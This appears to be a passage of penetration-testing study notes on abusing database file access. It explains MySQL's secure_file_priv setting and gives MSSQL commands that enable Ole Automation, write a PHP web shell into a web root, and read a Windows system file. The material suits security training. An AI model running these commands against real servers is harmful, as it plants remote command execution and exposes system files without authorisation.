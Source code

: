 
In `MySQL`, a global system variable `secure_file_priv` limits the effect of data import and export operations,
`secure_file_priv` may be set as follows:
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:
```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```



#### MSSQL - Write Local File

MSSQL - Enable Ole Automation Procedures which require admin `prives`
```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
write:
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read Local Files

#### Read Local Files in MSSQL

```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
